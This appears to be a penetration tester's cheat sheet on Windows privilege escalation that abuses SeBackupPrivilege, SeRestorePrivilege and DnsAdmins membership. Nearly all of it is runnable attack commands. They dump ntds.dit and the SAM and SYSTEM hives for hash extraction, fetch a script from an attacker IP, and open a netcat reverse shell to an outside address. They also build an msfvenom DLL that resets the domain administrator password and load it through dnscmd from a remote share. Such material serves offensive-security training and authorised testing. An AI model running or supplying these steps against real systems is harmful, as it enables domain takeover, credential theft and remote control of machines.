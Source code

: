   
**SeBackupPrivilege**
1. https://github.com/giuliano108/SeBackupPrivilege
   ```
   import-module .\SeBackupPrivilegeUtils.dll
   import-module .\SeBackupPrivilegeCmdLets.dll
   ```
2. `iwr -uri http://10.18.110.121/diskshadow.txt -o diskshadow.txt`
   - If you have modified `diskshadow.txt` and it doesn't work, run: `unix2dos diskshadow.txt`
3. `diskshadow /s diskshadow.txt`
4. `cd E:`
5. `robocopy /b E:\Windows\ntds . ntds.dit`
6. ```
   reg save hklm\system c:\tmp\system
   reg save hklm\sam c:\tmp\sam
   ```
7. ```
   download ntds.dit
   download system.bak
   download sam
   ```
8. `samdump2 system sam`
9. `impacket-secretsdump -ntds ntds.dit -system system LOCAL`


**SeRestorePrivelege**
1. list manual start service:
   ```
   cmd.exe /c sc queryex state=all type=service
   Get-Service | findstr -i "manual"
   gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
   gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "manual"} | select PathName,DisplayName,Name
   ```
2. Check seclogon, known to have manual start permissions and that can be started by all users
   ```
   reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
   cmd.exe /c sc sdshow seclogon
   - RP = Start Service / AU = All Users
   - winhelponline.com/blog/view-edit-service-permissions-windows/
   ```
3. SeRestoreAbuse exploit
   ```
   .\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.45.238 445 -e powershell.exe"
   ```
- See also: https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#shell-as-system

### Privileged Groups

- [Privileged Groups | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

#### DnsAdmins
- https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/
- `dnscmd.exe /config /serverlevelplugindll \\path\to\dll`
  - as a dll, try to use 'dns-exe-persistance.dll'
    - you have to recompile it with your IP
    - you can also use msfvenom
      - `msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll`
- Alternative
  1. `cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.34\share\da.dll`
  2. `sc.exe stop dns`
  3. `sc.exe start dns`
  